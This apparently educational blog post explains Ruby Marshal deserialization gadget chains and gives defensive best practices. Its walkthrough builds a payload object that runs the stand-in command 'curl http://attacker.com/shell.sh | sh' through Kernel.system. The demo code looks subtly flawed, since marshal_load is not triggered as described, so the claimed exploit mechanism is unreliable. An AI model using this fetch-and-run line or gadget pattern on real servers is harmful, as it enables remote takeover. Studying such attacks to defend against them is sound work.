

# Ruby 4.0 Universal RCE Deserialization Gadget Chain

## Introduction
Deserialization vulnerabilities have been a staple of security research for decades, but the shift toward more complex, highly dynamic object models in modern languages like Ruby 4.0 has introduced a new class of "universal" gadget chains. We aren't just talking about a single vulnerable class anymore. We are talking about a sequence of method calls—a chain—that can be triggered by the mere act of reconstructing an object from a byte stream, eventually leading to arbitrary code execution (RCE).

## Why This Matters
If your production stack relies on `Marshal.load` or certain configurations of `YAML.load` to pass state between microservices, you are holding a live grenade. In a distributed architecture, where a Redis cache or a Sidekiq queue might store serialized Ruby objects, an attacker who gains write access to that storage can escalate to full system compromise. This isn't theoretical; it's a direct path from "untrusted data in a cache" to "shell access on the application server."

## How It Works
The core of a gadget chain is the exploitation of "magic methods"—methods like `marshal_load`, `each`, or `method_missing` that the Ruby interpreter calls automatically during object lifecycle events. 

An attacker doesn't send code; they send *data* that represents a specific arrangement of objects. When the server calls `Marshal.load(payload)`, the interpreter begins instantiating these objects. The attacker carefully crafts the object graph so that the first object's lifecycle method calls a second object, which calls a third, eventually landing on a "sink"—a method that performs a dangerous operation like `Kernel.system` or `eval`.



## Core Concepts
To understand how these chains are built, we need to define three specific components:
1.  **The Entry Point (The Trigger):** A method automatically invoked during deserialization (e.g., `initialize`, `marshal_load`, or `hash`).
2.  **The Gadget:** A legitimate piece of code within the application or its dependencies (gems) that performs a seemingly benign action—like calling a method on an internal attribute.
3.  **The Sink:** The final method in the chain that interacts with the operating system, the file system, or the network (e.g., `eval`, `open`, `system`, `spawn`).

## Examples & Code Walkthrough
Let's simulate a scenario. Imagine we have a high-throughput payment processing system that uses a `TransactionContext` object to pass data through a background worker.

### The Vulnerable Application Logic
```ruby
# A legitimate class used for state management in our worker
class TransactionContext
  attr_accessor :metadata, :timestamp

  def initialize(metadata = {})
    @metadata = metadata
    @timestamp = Time.now
  end

  # This is our entry point. When Marshal.load reconstructs this, 
  # it triggers marshal_load.
  def marshal_load(data)
    @metadata = data[:metadata]
  end
end
```

### The Exploit Payload Construction
An attacker won't use `TransactionContext` directly to run code; they will use it to jump into a gadget chain. Suppose there is a common utility gem in our stack that has a `Logger` class with a dangerous `method_missing` implementation.

```ruby
# A hypothetical 'gadget' found in a common dependency
class LegacyLogger
  def initialize(command)
    @command = command
  end

  def method_missing(method, *args)
    # The vulnerability: calling any method on this object 
    # triggers a system call.
    Kernel.system(@command)
  end
end

# --- The Exploit Payload Construction ---

# 1. Create the sink object (the dangerous part)
sink = LegacyLogger.new("curl http://attacker.com/shell.sh | sh")

# 2. Create the intermediate gadget
# We need an object that calls a method on its internal attributes
class ProxyGadget
  def initialize(target)
    @target = target
  end

  def marshal_load(data)
    # This call triggers method_missing on the target
    @target.some_random_method
  end
end

# 3. Wrap it in the entry point
payload_object = ProxyGadget.new(sink)

# 4. Serialize the nightmare
serialized_payload = Marshal.dump(payload_object)

# --- The Victim Execution ---
# In the production worker:
# Marshal.load(serialized_payload) # -> RCE TRIGGERED
```

## Best Practices
*   **Avoid `Marshal` for Untrusted Data:** This is the golden rule. `Marshal` is highly efficient but inherently dangerous for any data coming from an external source (API, Redis, MQ).
*   **Use Data-Only Formats:** Prefer JSON or Protobuf. These formats describe data structures, not complex object graphs with behaviors.
*   **Strict Schema Validation:** If you must use a complex format, validate the structure against a strict schema before attempting to instantiate classes.
*   **Principle of Least Privilege:** Run your background workers in isolated containers with minimal OS-level permissions to limit the impact of an RCE.

## Common Mistakes & Anti-Patterns
*   **The "Internal Network" Fallacy:** Assuming that because a Redis instance is "internal," the data inside it is safe. If any other service is compromised, your Redis becomes a delivery mechanism for RCE.
*   **Over-reliance on `YAML.load`:** In older Ruby versions, `YAML.load` was a direct RCE vector. Even in newer versions, using it on untrusted input is a massive risk. Always use `YAML.safe_load`.
*   **Complex Dependency Trees:** Adding "convenience" gems that use `method_missing` or `send` extensively increases your attack surface by providing more "gadgets" for an attacker to use.

## Performance Considerations
From a pure performance standpoint, `Marshal` is significantly faster than JSON because it's a binary format optimized for Ruby. However, the computational complexity of an exploit is negligible—the attacker's payload is usually a small, highly optimized byte array. The "cost" is entirely on the security side: the overhead of implementing robust validation and safer serialization formats.

## Real-World Usage
In large-scale distributed systems (like those at Uber or Stripe), serialization is everywhere. To mitigate these risks, these organizations typically move away from language-specific serialization (like Ruby's `Marshal`) in favor of language-agnostic, schema-driven protocols like **Protocol Buffers (gRPC)**. This ensures that even if a payload is intercepted, it cannot trigger unexpected code execution because the parser only understands predefined data types, not arbitrary object behaviors.

## Frequently Asked Questions (FAQ)
**Q: Is `JSON.parse` safe?**
A: Generally, yes. `JSON.parse` creates standard Ruby types (Hash, Array, String, etc.) and does not instantiate arbitrary classes unless you are using specific, non-standard extensions.

**Q: How do I find these gadgets in my own code?**
A: Use static analysis tools and look for "sinks" like `eval`, `system`, `spawn`, and `Kernel#open`. Then, trace backwards to see if those methods can be reached through magic methods.

**Q: Can I use `Marshal.load` safely if I sign the payload?**
A: It's better, but not foolproof. HMAC signing ensures the payload hasn't been tampered with, but if your signing key is leaked, the protection is gone. It's a layer of defense, not a replacement for safe serialization.

## Conclusion
The evolution of Ruby 4.0 and its ecosystem continues to prioritize developer ergonomics and performance. However, the ability to serialize complex object states is a double-edged sword. As engineers, we must treat any serialized data as potentially malicious. Moving toward schema-based, data-only serialization is not just a security preference; it is a fundamental requirement for building resilient, modern distributed systems.
